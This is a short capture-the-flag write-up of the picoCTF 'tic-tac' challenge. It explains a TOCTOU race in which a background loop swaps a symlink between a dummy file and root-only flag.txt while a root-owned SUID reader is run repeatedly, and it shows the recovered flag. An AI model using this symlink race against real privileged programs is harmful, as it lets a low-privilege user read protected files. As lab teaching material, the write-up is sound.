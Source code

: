 # Lesson
- practicing `TOCTOU` exploitation  
- `ln -sf`  
  - -s: Create a symbolic link.  
  - -f: If the target file or directory already exists, remove it and create the link.  
- `SUID`
  a kind of permission type

# Memo
1. analyze  
"txtreader" is owned by "root" and has the SUID bit set, so it runs with "root" privileges even when launched by the low-privilege "ctf-player" account.
```zsh
ctf-player@pico-chall$ whoami
ctf-player
ctf-player@pico-chall$
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Jan  6 14:06 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Jan  6 14:06 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
```

2. exploit
```zsh
ctf-player@pico-chall$ touch dummy
ctf-player@pico-chall$ 
ctf-player@pico-chall$ for i in {1..10000}; do ln -sf dummy flag; ln -sf flag.txt flag; done &
[1] 37
ctf-player@pico-chall$ for i in {1..10000}; do ./txtreader flag 2>/dev/null; done
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
```

# Ref
- https://samsclass.info/127/proj/E10.htm  
- https://brandon-t-elliott.github.io/tic-tac  
- https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-a09828def8cc  